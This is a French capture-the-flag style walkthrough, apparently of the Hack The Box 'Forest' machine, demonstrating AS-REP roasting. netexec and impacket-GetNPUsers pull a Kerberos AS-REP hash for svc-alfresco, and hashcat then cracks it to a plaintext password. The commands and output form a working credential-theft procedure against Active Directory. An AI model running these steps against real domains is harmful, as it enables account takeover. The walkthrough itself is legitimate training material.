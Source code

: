 **ASREPRoast Sans authentification**
L'attaque ASREPRoast recherche des utilisateurs sans préauthentification Kerberos requise. Cela signifie que n'importe qui peut envoyer une requête `AS_REQ ` au KDC au nom de l'un de ces utilisateurs et recevoir un message `AS_REP` Ce dernier type de message contient un morceau de données cryptées avec la clé originale de l'utilisateur, dérivée de son mot de passe. En utilisant ce message, le mot de passe de l'utilisateur peut être déchiffré hors ligne.
 - https://www.netexec.wiki/ldap-protocol/asreproast
 

```
└─# nxc ldap 10.129.4.45 -u users.txt -p '' --asreproast out.txt
SMB         10.129.4.45     445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.4.45     445    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:edda6953ed4861f8cd060cc1034fb9f1$6c60d8004a9db82ba881dec8e91452bdfc3c66f749dd09a3cf6c14b9e941c5b8c22bbbc8af4f53f3a51578ebcabb27cb793f691e116e5ea82610d60c75e8a08f9f193c9f8a48b3d83c61d9535216c4b3fd2508a6bd2daf07d5acf65afee42511805056a592f537f4ccbc163d4f0e11b7aa3d82bcfde71f36dbfdb0a8cb8a327fcb9fc6b9f425f48d296fca748fc2f508aaaec61c8d8d867e303c85c88ccafe315ec754994a913639c9ad61a4accc011eba1b103f066314367090d4f8fcd24516faa5b733600dea61beb789aa9cbdb6ba1ce49ac865dc059e195be6dbb51a1668f20ccb954959
```
Oubien on peux aussi le faire avec l'outil `Get-NPUsers` sans password de impacket
```
└─# impacket-GetNPUsers htb.local/ -usersfile user
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:d81ff7d3a5c6851f4b3ef13e35292a99$e536998eba85fc12776e69b5b4f1615064efb6e148446dc598478cde93ab7d9a786fcd04cf365d86dbf29c6ea93edddc4e818dc2432893b3e45ab594ad944a2da2fba02928379164366f85d28bd6b7a798227b1338d248b06bde21c3804f706fe46ade5cd6ba4e6eb6da514bc16571a04473324ccd5e9d85b066f9adea291bc3e408f69e302ea465daefcca4ab4820ac36328aa467655a05b8ed2f0d14e29a541f903b0e237a52e022bd7642b99a5e07bc0ff07b637aba1df20511c920993c1861963380030543447941d59b40a1acce563e08847e28c42d9c07e95d82939a0b8bf3983f884a
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

```
Maintenant avec ce message je vais la dechiffrer avec hashcat
```
└─# hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:edda6953ed4861f8cd060cc1034fb9f1$6c60d8004a9db82ba881dec8e91452bdfc3c66f749dd09a3cf6c14b9e941c5b8c22bbbc8af4f53f3a51578ebcabb27cb793f691e116e5ea82610d60c75e8a08f9f193c9f8a48b3d83c61d9535216c4b3fd2508a6bd2daf07d5acf65afee42511805056a592f537f4ccbc163d4f0e11b7aa3d82bcfde71f36dbfdb0a8cb8a327fcb9fc6b9f425f48d296fca748fc2f508aaaec61c8d8d867e303c85c88ccafe315ec754994a913639c9ad61a4accc011eba1b103f066314367090d4f8fcd24516faa5b733600dea61beb789aa9cbdb6ba1ce49ac865dc059e195be6dbb51a1668f20ccb954959:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:edda6953ed4861...954959
Time.Started.....: Fri Feb 23 19:20:58 2024 (1 sec)
Time.Estimated...: Fri Feb 23 19:20:59 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2367.6 kH/s (1.27ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4087808/14344387 (28.50%)
Rejected.........: 0/4087808 (0.00%)
Restore.Point....: 4083712/14344387 (28.47%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
```